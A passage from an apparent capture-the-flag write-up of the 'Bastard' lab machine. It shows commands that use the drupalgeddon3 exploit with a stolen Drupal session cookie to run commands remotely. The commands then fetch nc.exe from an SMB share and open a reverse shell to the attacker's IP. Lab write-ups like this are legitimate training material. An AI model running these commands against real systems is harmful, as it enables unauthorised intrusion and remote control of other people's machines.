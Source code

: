 <br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I'm in the **Drupal** Dashboard I can look up a valid **Node ID number**, and since I already have session cookie information I can run the `drupalgeddon3.py` exploit to exploit an **RCE**. I perform some basic enumeration commands, then send an **ICMP** trace with `ping` to my attacking machine to capture the requests with `tcpdump` to verify connectivity and finally, this time with `nc.exe` I can send a **Reverse Shell** to, again, compromise the box.

> **Attacker Machine**:

```bash
cat session.json
python2 drupalgeddon3.py http://10.129.115.148 "SESS3eb1dbbf52d2155b11b51607033c4ba2=QMF4TBS2Y0mt1hJyVFXY7QqfLfVWmV80qj1jCHmo7mU" 1 "whoami" 2>/dev/null
python2 drupalgeddon3.py http://10.129.115.148 "SESS3eb1dbbf52d2155b11b51607033c4ba2=QMF4TBS2Y0mt1hJyVFXY7QqfLfVWmV80qj1jCHmo7mU" 1 "ipconfig" 2>/dev/null

sudo tcpdump -i tun0 icmp -n
python2 drupalgeddon3.py http://10.129.115.148 "SESS3eb1dbbf52d2155b11b51607033c4ba2=QMF4TBS2Y0mt1hJyVFXY7QqfLfVWmV80qj1jCHmo7mU" 1 "ping 10.10.14.238" 2>/dev/null
# :)

locate nc.exe | grep usr
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
python2 drupalgeddon3.py http://10.129.115.148 "SESS3eb1dbbf52d2155b11b51607033c4ba2=QMF4TBS2Y0mt1hJyVFXY7QqfLfVWmV80qj1jCHmo7mU" 1 '\\10.10.14.238\smbFolder\nc.exe -e cmd 10.10.14.238 443' 2>/dev/null
```

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
